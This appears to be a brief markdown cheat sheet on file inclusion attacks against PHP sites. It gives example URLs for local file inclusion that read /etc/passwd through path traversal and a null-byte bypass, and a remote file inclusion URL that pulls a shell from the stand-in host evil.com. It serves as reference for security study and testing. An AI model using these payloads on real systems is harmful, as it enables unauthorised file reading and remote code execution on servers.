 # Local File Inclusions
https://en.wikipedia.org/wiki/File_inclusion_vulnerability

### Simple LFI
```html
http://<victim-site>/index.php?location=../../../etc/passwd
```

### If the LFI vuln sanitizes for .pdf or put that to the end.
The `%00` is the null character that terminates the string
```html
http://<victim-site>/index.php?location=../../../etc/passwd%00
```

# Remote File Inclusions
Remote File Inclusions (RFI) works int he same way as LFI; the only difference is that the file to be included is pulled remotely

Our aim, in this case, is not just to read, but to include out own code in the execution. An exploitable URL would like this:
```html
http://<victim-site>/vuln.php?page=http://evil.com/shell.txt
```